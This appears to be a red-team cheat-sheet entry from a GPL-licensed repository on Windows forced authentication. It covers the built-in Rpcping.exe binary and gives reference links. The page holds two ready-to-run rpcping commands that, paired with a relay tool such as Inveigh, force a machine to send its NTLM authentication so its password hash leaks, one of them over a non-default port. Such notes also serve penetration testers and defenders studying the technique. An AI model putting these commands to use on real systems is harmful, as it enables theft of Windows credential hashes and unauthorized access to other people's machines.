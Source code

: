 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Windows Forced Authentication

* LOLBAS -<br />
	* <details><summary>Rpcping.exe (Click to expand)</summary><p>
		* References
			* [https://twitter.com/vysecurity/status/974806438316072960](https://twitter.com/vysecurity/status/974806438316072960)
			* [https://twitter.com/vysecurity/status/873181705024266241](https://twitter.com/vysecurity/status/873181705024266241)
			* [https://twitter.com/splinter_code/status/1421144623678988298](https://twitter.com/splinter_code/status/1421144623678988298)
			* [https://github.com/vysecurity/RedTips](https://github.com/vysecurity/RedTips)
		* Notes
			* Forced Authentication by user
		* Examples
			* Example 1: First run local relay like inveigh, then target with -s

					rpcping -s 127.0.0.1 -t ncacn_np to leak hash
			* Example 2: leak hash over port besides 445

					rpcping  -s 127.0.0.1 -e 1234 -a privacy -u NTLM